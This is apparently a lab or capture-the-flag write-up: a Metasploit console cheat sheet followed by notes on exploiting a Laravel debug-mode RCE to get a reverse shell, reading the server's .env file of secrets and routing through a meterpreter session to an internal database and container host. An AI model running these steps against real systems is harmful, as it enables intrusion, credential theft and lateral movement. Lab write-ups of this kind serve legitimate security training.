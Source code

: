 ## Metaspliot Framework Console

Some usefull commands:

- list sessions `sessions`
- show options `show options`
- show module infos `info`
- show jobs `jobs`
- set option `set rhosts 10.10.114.115`
- run the exploit `run` / `exploit`
- upgrade session to 'meterpreter session' `sessions -u -1`
- in meterpreter
  - get system info `sysinfo`
  - resolve hostname to ip `resolve remote_service`
  - setup route`route add {ip address}\32 {meterpreter session ID}`
- open default shell of host via meterpreter `shell`
- interact with a session `sessions -i session_id`
- list current routes `route`

- use `exploit/multi/php/ignition_laravel_debug_rce` to open a reverse bash
- / contains '.dockerenv' - were in a docker container - "172.17.0.1" potentially container host
- check out what the environment variables for the web server are - `cat /var/www/.env`

```console
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:NEMESCXelEv2iYzbgq3N30b9IAnXzQmR7LnSzt70rso=
APP_DEBUG=true
APP_URL=http://localhost

LOG_CHANNEL=stack
LOG_LEVEL=debug

DB_CONNECTION=pgsql
DB_HOST=webservice_database
DB_PORT=5432
DB_DATABASE=postgres
DB_USERNAME=postgres
DB_PASSWORD=postgres
...
```

- `meterpreter > resolve webservice_database`

```console
Host resolutions
================

    Hostname             IP Address
    --------             ----------
    webservice_database  172.28.101.51
```

- `bg` to exit meterpreter
- setup route `route add 172.28.101.51\32 5`
- setup route `route add 172.17.0.1\32 5`
